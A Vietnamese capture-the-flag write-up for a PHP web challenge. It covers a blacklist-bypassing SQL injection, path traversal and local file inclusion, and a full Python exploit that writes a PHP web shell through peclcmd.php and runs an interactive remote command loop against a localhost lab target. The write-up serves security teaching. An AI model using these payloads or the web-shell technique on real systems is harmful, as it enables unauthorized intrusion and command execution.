

# Write-up GIFT

### Tổng quan

- Tổng quan trang web có 1 trang đăng nhập và trong mã html có 1 đoạn comment chỉ dẫn truy cập 1 endpoint khác là send_pic.php.




- Đọc src code thì trang web sẽ xử lý logic như sau:
    - login.php: lấy giá trị người dùng nhập vào trường `access_key` rồi so sánh với giá trị trong cột `key_cc` nếu bằng nhau thì sẽ đăng nhập thành công.
    
    
    
    - send_pic.php: kiểm tra 2 biến `$_POST['url']` và `$_POST['id']` nếu tồn tại thì sẽ được truyền vào hàm `filter()` và `get_picture()` để xử lý. Nếu kiểm tra hợp lệ thì sẽ gửi request tới url mà người dùng nhập vào.
    
    
    
    - Hàm `filter()`: kiểm tra url có thuộc các IP internal không nếu phải thì sẽ trả về false.
    
    
    
    - Hàm `get_picture()`: sẽ thực hiện truy vấn db lấy giá trị từ cột `pictures` thông qua `id`. Ở đây câu sql đang thực hiện nối chuỗi untrusted data nên ta sẽ khai thác sql injection ở đây, tuy nhiên `id` không được có các ký tự trong mảng `$black_lists`.
    
    
    

### Khai thác

- Mục tiêu ở đây là lấy được `access_key` ở endpoint send_pic.php rồi dùng `access_key` đó đăng nhập ở login.php. Câu sql ở login.php là `$sql = 'select key_cc from access_key';` cho nên ở send_pic.php mình cũng sẽ thực hiện chèn làm sao để lấy được `key_cc`. Tuy nhiên `key_cc` cũng nằm trong `$black_list` cho nên ta có thể bypass bằng cách viết hoa vài ký tự. VD: key_cC
- Payload sẽ như sau: `url=attack.com&id=0+union+select+key_cC+from+access_key--+`


- Sau khi có được key thì mình thực hiện đăng nhập, do là logic trang web chỉ kiểm tra trường `access_key` nên `username` và `password` mình sẽ nhập bừa.


Đăng nhập thành công thì trang web sẽ redirect sang index.php

- Sau khi đăng nhập thành công thì quan sát thấy có 1 endpoint là `/get_img.php?file=messi.jpg` dùng để lấy hình ảnh thông qua param get `file`. Đầu tiên mình thử đọc file `/etc/passwd` thì thấy đọc thành công.


- Tuy nhiên mục tiêu của bài này là đọc được flag ở thư mục /, nhưng mình không biết tên file flag. Đọc src code thì thấy trang web chặn không cho truy cập đến `pearcmd.php` - đây là 1 công cụ quản lý extension bằng cmd. Nhưng ngoài file `pearcmd.php` này thì cũng có file `peclcmd.php` có chức năng tương tự. 2 file này sẽ nhận tham số từ command promt rồi thực thi ghi file, tải package,…
- Ngoài trang trong src code còn chặn `../..` để không bị path traversal nhưng ta có thể bypass bằng `.././../`. Sau khi tất cả các bước kiểm tra thực hiện xong thì giá trị param file này sẽ nối chuỗi thành 1 đường dẫn file rồi rơi vào hàm `include()`

⇒ Vậy thì các bước khai thác sẽ như sau đầu tiên ta ghi 1 file php thông qua file `peclcmd.php`, sau đó thì thực hiện LFI file php đó để RCE rồi đọc file flag. Code exploit sẽ như sau:

```python
import requests
import os

url = "http://localhost:2222/login.php"
r = requests.get(url)
cookie = r.cookies.get_dict()
cookie_value = cookie['PHPSESSID']
curl_cmd = "curl -b 'PHPSESSID=" + cookie_value + "' 'http://localhost:2222/get_img.php/?+config-create+/&file=.././.././.././.././.././.././.././.././usr/local/lib/./php/peclcmd.php&<?=`$_GET[1]`?>+/tmp/exploit.php'"

data = {"username": "test", "password": "test", "asscess_key": "messi_is_goat", "submit": ''}
r = requests.post(url, cookies=cookie, data=data)

os.system(curl_cmd)

while True:
    command = input("Command: ")
    url_exploit = "http://localhost:2222/get_img.php?file=.././.././.././.././.././tmp/exploit.php&1={}".format(command)
    r = requests.get(url_exploit ,cookies=cookie)
    print(r.text.split("php&")[1].split("/pear/php")[0])
```


[https://github.com/w181496/Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)